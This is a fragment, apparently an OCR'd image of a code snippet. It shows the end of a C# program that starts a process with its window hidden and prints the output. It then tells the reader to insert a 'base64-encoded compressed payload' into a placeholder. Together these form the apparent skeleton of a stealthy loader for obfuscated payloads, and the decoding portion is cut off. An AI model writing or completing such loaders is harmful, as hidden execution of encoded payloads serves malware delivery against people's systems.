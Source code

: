 ```
        psi.CreateNoWindow = true;

        Process process = new Process();
        process.StartInfo = psi;
        process.Start();
        string result = process.StandardOutput.ReadToEnd();
        process.WaitForExit();
        Console.WriteLine(result);
    }
}
```

Replace "ENCODED_COMPRESSED_PAYLOAD_HERE" with your base64-encoded compressed payload. Ensure that you have proper permissions to run the script and execute it in your environment.